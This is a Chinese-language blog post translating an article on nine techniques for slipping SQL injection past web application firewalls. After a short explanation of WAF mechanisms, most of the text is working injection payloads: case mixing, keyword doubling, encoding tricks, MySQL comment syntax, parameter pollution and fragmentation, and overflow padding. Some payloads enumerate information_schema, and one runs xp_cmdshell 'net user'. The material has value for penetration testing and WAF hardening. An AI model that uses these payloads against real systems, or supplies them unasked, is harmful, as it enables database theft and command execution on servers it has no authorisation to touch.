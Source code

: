 ```yaml
---
title: sql-injection-9-ways-bypass-web-application-firewall
date: 2018-03-08 15:54:24
tags:
		- Bypasswaf 
		-  翻译
		 
categories:
		- 翻译
---
```


SQL注入绕过`WAF`的几个技巧。

<!-- more -->


#### [翻译——sql-injection-9-ways-bypass-web-application-firewall](https://www.digitalmunition.me/2018/02/sql-injection-9-ways-bypass-web-application-firewall/)


Web应用程序(WAF)过滤，检测，拦截进出Web应用程序的`HTTP`流量。WAF不同于传统的防火墙，因为WAF能够过滤特定的Web应用程序内容，而传统防火墙只是充当服务器间的安全门。通过检测HTTP流量，它能拦截基于Web应用程序的漏洞，比如SQl注入、XSS、文件包含和安全误配置等攻击。

##### WAF工作原理

- 异常检测协议： 拦截不符合HTTP标准的请求
- 增强输入验证： 代理和服务器端验证。不只是客户端验证
- 基于白名单和黑名单 
- 基于规则和基于异常保护：基于规则的较固定，基于异常的比较灵活
- 状态管理：专注于会话保护，还有：Cookie保护、反入侵避免保护、响应监控和信息泄露保护

##### 如何绕过WAF

1. 大小写绕过。如果WAF区分大小写的话，`union`可以写为`UniOn`，更改大小写可能绕过该机制。(这种绕过已经很少见了，一般的WAF都会区分大小写的)

		http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4

2. 替换关键字(插入被WAF删除的特殊字符)只是过滤关键字。比如过滤`script`，构造`scscriptript`变为`script`，把里面的`script`过滤后，剩余的字符拼接后也是`script`。

		http://target.com/index.php?page_id=-15&nbsp;UNIunionON SELselectECT 1,2,3,4


3. 编码绕过

	+ *URL encode*

			page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

		经过双重解码后为

			page.php?id=1/**/UNION/* /SELECT

	+ *Hex encode*

			target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…

			SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

	+ *Unicode encode*

			?id=10%D6‘%20AND%201=2%23　　
 			SELECT 'Ä'='A'; #1

4.注释绕过

在攻击字符串中插入注释。比如`/*!select*/`可能会被`WAF`放行，但是传递给目标服务器能够被`mysql`数据库处理。

	index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　
	 
	　　　'union%a0select pass from users#
	
	index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
	 
	　　　?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…



5.等价函数和命令


有时候一些函数或者命令被过滤了，但是很多情况下可以使用等价或这相似的代码。

		hex()、bin() ==> ascii()
		 
		sleep() ==>benchmark()
		 
		concat_ws()==>group_concat()
		 substr((select 'password'),1,1) = 0x70
		 
		　　　strcmp(left('password',1), 0x69) = 1
		 
		　　   strcmp(left('password',1), 0x70) = 0
		 
		　　　strcmp(left('password',1), 0x71) = -1
		mid()、substr() ==> substring()
		 
		@@user ==> user()
		 
		@@datadir ==> datadir()


6.特殊符号。把非字母数字的符号规定为一个类为特殊符号。特殊符号具有特殊的含义和用法。



	+ ` symbol: select `version()`;
	+ +- :select+id-1+1.from users;
	+ @:select@^1.from users;
	+Mysql function() as xxx
	+`、~、!、@、%、()、[]、.、-、+ 、|、%00
	Example:
	‘se’+’lec’+’t’
	 
	　　　　　　%S%E%L%E%C%T 1
	 
	　　　　　　1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)
	
	' or --+2=- -!!!'2
	 
	 　　　 id=1+(UnI)(oN)+(SeL)(EcT)


7.HTTP参数污染

提供几个相同的参数来混淆`WAF`。比如以下的`url`

	 http://example.com?id=1&?id=’ or ‘1’=’1′ — ‘ 

在某些情况下，比如`Apache/PHP`，这个应用程序仅解析第二个`id`，但是`WAF`解析第一个，这似乎是一个合法的请求，但是应用程序仍然接受并处理恶意输入。现在的`WAF`大多数不容易受到参数污染的影响，但是仍然值得一试。

		/?id=1;select+1,2,3+from+users+where+id=1—
	 
	　　　/?id=1;select+1&amp;id=2,3+from+users+where+id=1—
	 
	　　　/?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users


`HPP`也被称为重复参数污染。最简单的是`uid = 1 & uid = 2 & uid = 3`，对于这种情况，不同的`Web`服务处理情况如下：

![](https://i.imgur.com/tM8MPgW.png)


HPF(HTTP 参数 片段)

此方法是`HTTP`分段注入，与`CRLF`类似（使用控制字符 %0a，%0d等执行换行符）

	/?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--
	 
	　　select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—
	

HPC(HTTP 参数污染)

RFC2396定义了以下字符：

	Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()
	Reserved : ; / ? : @ &amp; = + $ ,
	Unwise : { } | \ ^ [ ] `


构建特殊请求时，不同的Web服务器处理进程具有不同的逻辑。

![](https://i.imgur.com/i0jbEHM.png)

在这种情况下，魔术字符`%`，在`Asp`和`Asp.net`中会受到影响。会把`%`吃掉，而正常执行攻击载荷。

![](https://i.imgur.com/TjKcPpb.png)

8.缓冲区溢出

毕竟`WAF`也是一个应用程序，容易受到和其他应用程序相同的软件缺陷的影响。如果一个缓冲区漏洞会导致崩溃，即使不会导致代码执行，这会导致`WAF`打开失败。换句话说，绕过了。


	?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

9.集成整合绕过

一个绕过技术可能不能成功绕过，多个技巧结合起来可能或绕过。

	target.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…
	 
	id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -
	 
	?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--

总结，绕过`WAF`，终归还是寻找一个特性，经过`WAF`时不被拦截，但是后面的`Web`服务器可以正常执行。





